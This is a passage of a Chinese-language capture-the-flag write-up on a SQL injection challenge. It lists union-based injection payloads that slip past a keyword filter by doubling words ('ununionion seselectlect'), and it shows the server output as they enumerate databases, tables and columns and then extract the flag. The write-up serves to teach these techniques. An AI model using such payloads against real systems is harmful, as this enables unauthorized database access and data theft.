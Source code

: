 首先查看当前数据库

````sql
b' ununionion seselectlect 1,2,database() #
````

```
Hello 2！
Your password is 'geek'
```

查看所有数据库

````sql
b' ununionion seselectlect 1,2,group_concat(schema_name)frfromom (infoorrmation_schema.schemata) #
````

```
Hello 2！
Your password is 'information_schema,mysql,performance_schema,test,ctf,geek'
```

看到一个`ctf`库，再去爆这个数据库的表

```sql
b' ununionion seselectlect 1,2,group_concat(table_name)frfromom(infoorrmation_schema.tables) whwhereere table_schema="ctf" #
```

```
Hello 2！
Your password is 'Flag'
```

其中有个`Flag`表，然后再去爆字段

````sql
b' ununionion seselectlect 1,2,group_concat(column_name) frfromom (infoorrmation_schema.columns) whwhereere table_name="Flag"
````

```
Hello 2！
Your password is 'flag'
```

其中有`flag`字段，再去爆数据

```sql
b' ununionion seselectlect 1,2,group_concat(flag)frfromom(ctf.Flag)
```

拿到flag

```
Hello 2！
Your password is 'flag{b11bfeba-d864-4a0a-97f6-77e3ef266da9}'
```

个人感觉，这题的要点在于数据库本身信息数据库的内容，以及`group_concat`的使用，双写绕过其实是个很简单的东西。

### 参考链接：
